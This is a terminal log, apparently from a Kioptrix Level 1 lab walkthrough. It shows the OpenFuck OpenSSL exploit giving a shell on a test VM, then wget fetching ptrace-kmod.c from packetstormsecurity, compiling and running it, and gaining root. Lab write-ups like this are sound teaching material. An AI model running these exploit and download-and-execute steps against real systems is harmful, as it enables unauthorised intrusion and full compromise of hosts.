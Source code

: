 ```bash
13:24:59 ERROR 404: Not Found.

gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$
bash-2.05$ whoami
whoami
apache
bash-2.05$ hostname
hostname
kioptrix.level1
bash-2.05$ Good Bye!
root@kali:/opt/OpenLuck# ./OpenFuck 0x6b 192.168.88.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--13:35:23--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--13:35:23--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

13:35:23 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 2071
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
hostname
kioptrix.level1
```
